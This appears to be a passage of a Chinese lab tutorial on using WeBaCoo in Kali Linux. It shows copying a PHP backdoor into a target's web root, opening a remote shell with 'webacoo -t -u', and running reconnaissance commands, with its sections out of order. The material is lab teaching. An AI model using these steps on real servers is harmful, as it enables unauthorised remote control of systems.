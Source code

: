 将木马文件，复制到网站的根目录下，这里注意，要加 `sudo` 权限：

```
# 将木马文件，复制到目标主机的网站目录下
sudo cp /tmp/hello.php /var/www/html/
```
### 4.4 感染目标主机并创建会话

在将木马程序上传至目标主机后，在 Kali Linux 的终端中，输入如下命令创建会话通道：

```
# 连接目标主机，建立会话
webacoo -t -u http://192.168.122.1/hello.php
```

成功之后，命令行前缀发生了变化，如下图所示：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481014707333.png-wm)

**注意：成功后终端前缀 `root@Kali:` 变成了 `webacoo$`**

### 4.5 查看系统信息

在命令行的前缀变成了 `webacoo$` 之后，可以使用 Linux 的基础命令，查看当前信息以及用户信息：

```
# 查看当前用户 id
id

# 查看当前用户
whoami

# 查看当前目录下有哪些文件
ls

# 查看系统信息
ifconfig
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481014938827.png-wm)


## 五、总结和思考

## 一、实验简介

### 1.1 实验介绍

在前面的实验二和实验八分别介绍了创建木马程序，感染目标主机这一过程，本实验也是介绍木马生成的实验。实验中将会介绍如何使用 WeBaCoo 来创建 PHP 木马后门。实验内容的第一部分会先解释 WeBaCoo 是什么，能干什么，以及它的参数含义。

随后介绍 WeBaCoo 创建 PHP 木马文件的特点，以及对其生成的 PHP 源码进行分析。接着将 PHP 木马上传至目标主机，感染目标主机。对于实验的目标靶机，可以根据自己的喜好选择宿主机 Ubuntu 或者虚拟机 Metasploitable2。
